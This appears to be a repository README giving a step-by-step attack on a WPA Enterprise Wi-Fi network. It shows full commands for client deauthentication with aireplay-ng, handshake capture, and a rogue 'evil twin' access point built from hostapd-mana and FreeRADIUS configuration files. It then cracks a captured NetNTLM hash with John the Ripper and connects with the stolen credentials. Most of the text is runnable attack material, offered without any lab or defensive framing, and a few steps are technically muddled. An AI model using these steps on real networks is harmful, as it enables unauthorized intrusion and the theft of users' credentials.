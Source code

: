 
---

### **Step 1: Enable Monitor Mode**
1. **Turn off interfering processes**:
   ```bash
   sudo airmon-ng check kill
   ```
2. **Put your wireless adapter in monitor mode**:
   ```bash
   sudo airmon-ng start wlan0
   ```

---

### **Step 2: Identify Target Network**
1. **Scan for nearby Wi-Fi networks**:
   ```bash
   sudo airodump-ng wlan0
   ```
   - Identify the **Channel (CH)**, **BSSID**, **ESSID**, and **Client MAC** of the target network.

2. **Focus the scan on a specific network**:
   ```bash
   sudo airodump-ng -c <CHANNEL_NUMBER> -w <FILENAME> wlan0
   ```

---

### **Step 3: Capture the Handshake (Deauthentication Attack)**
1. **Deauthenticate the client to capture the WPA handshake**:
   In a new terminal, execute:
   ```bash
   sudo aireplay-ng -0 1 -a <BSSID> -c <STATION_MAC> wlan0
   ```
   - `-a` is the AP's BSSID.
   - `-c` is the client's MAC address.

2. **Wait for the handshake to be captured**:
   - Press `Ctrl+C` in the first terminal once you see the handshake captured.

3. **Stop monitor mode** after capturing the handshake:
   ```bash
   sudo airmon-ng stop wlan0
   ```

---

### **Step 4: Inspect the Handshake with Wireshark**
1. **Open the `.cap` file with Wireshark**:
   ```bash
   wireshark <filename>.cap
   ```

2. **Filter for TLS Handshake**:
   - Use the Wireshark filter:
     ```bash
     tls.handshake.certificate
     ```

---

### **Step 5: Extract and Analyze the Certificate**
1. **Right-click the first certificate in Wireshark and export it**:
   - Export it as `.DER` (DER-encoded format).
   
2. **Convert the certificate from DER format to PEM**:
   ```bash
   openssl x509 -inform der -in cert.der -text
   ```

---

### **Step 6: Configure the Fake Access Point (AP)**
1. **Edit the CA and Server certificate configurations**:
   - **Edit the CA configuration file**:
     ```bash
     sudo nano /etc/freeradius/3.0/certs/ca.cnf
     ```
   - **Edit the Server configuration file**:
     ```bash
     sudo nano /etc/freeradius/3.0/certs/server.cnf
     ```
     - Example entries:
       - Issuer: `/etc/freeradius/3.0/certs/ca.cnf`
       - Subject: `/etc/freeradius/3.0/certs/server.cnf`
   
2. **Build the certificates**:
   ```bash
   cd /etc/freeradius/3.0/certs
   sudo rm dh
   sudo make
   ```

---

### **Step 7: Create Fake AP Configuration File**
1. **Create and configure the `mana.conf` file**:
   ```bash
   sudo nano /etc/hostapd-mana/mana.conf
   ```
   Example `mana.conf` content:
   ```
   # SSID of the AP
   ssid=Playtronics # (change this to the same SSID as the target)

   # Network interface and driver
   interface=wlan0
   driver=nl80211

   # Channel settings
   channel=1 # (use the same channel as the target network)
   hw_mode=g

   # Enable EAP (WPA Enterprise)
   ieee8021x=1
   eap_server=1
   eapol_key_index_workaround=0

   # Set certificate paths
   ca_cert=/etc/freeradius/3.0/certs/ca.pem
   server_cert=/etc/freeradius/3.0/certs/server.pem
   private_key=/etc/freeradius/3.0/certs/server.key
   private_key_passwd=whatever
   dh_file=/etc/freeradius/3.0/certs/dh

   # WPA settings
   wpa=3
   wpa_key_mgmt=WPA-EAP
   wpa_pairwise=CCMP TKIP
   mana_wpe=1
   mana_eapsuccess=1
   mana_eaptls=1
   ```

2. **Create EAP user file**:
   ```bash
   sudo nano /etc/hostapd-mana/mana.eap_user
   ```
   Example contents for `mana.eap_user`:
   ```
   * PEAP,TTLS,TLS,FAST
   "t" TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2 "pass" [2]
   ```

---

### **Step 8: Start the Fake AP**
1. **Start the fake AP** using `hostapd-mana`:
   ```bash
   sudo hostapd-mana /etc/hostapd-mana/mana.conf
   ```

---

### **Step 9: Launch the Deauthentication Attack**
1. **Run deauthentication attack using `aireplay-ng`**:
   ```bash
   sudo aireplay-ng -0 0 -a <AP_MAC> -h <CLIENT_MAC> wlan0
   ```
   or
   ```bash
   sudo aireplay-ng --deauth 0 -a <AP_MAC> wlan0
   ```

---

### **Step 10: Crack the Captured Hash**
1. **Crack the hash using John the Ripper**:
   ```bash
   echo cosmo:$NETNTLM$ceb69885c656590c$7279f65aa49870f45822c89dcbdd73c1b89d377844caead4 >> hash
   john hash -w /usr/share/wordlist/whatever.txt
   ```

---

### **Step 11: Configure the Client for WPA Enterprise**
1. **Create a `wifi.conf` file to configure the client**:
   ```bash
   sudo nano wifi.conf
   ```
   Example configuration for `wifi.conf`:
   ```
   network={
   ssid="NetworkName"  # (change this to the target network name)
   scan_ssid=1
   key_mgmt=WPA-EAP
   identity="Domain\\username"  # (use the domain and username of the client)
   password="password"  # (use the appropriate password)
   eap=PEAP
   phase1="peaplabel=0"
   phase2="auth=MSCHAPV2"
   }
   ```

2. **Connect using `wpa_supplicant`**:
   ```bash
   sudo wpa_supplicant -i wlan0 -c wifi.conf
   ```

3. **Obtain an IP address**:
   ```bash
   sudo dhclient wlan0
   ```

---

With these steps, you have successfully attacked a WPA Enterprise network by capturing the handshake, extracting the certificate, setting up a fake AP, and using it to perform a deauthentication attack and further analysis.
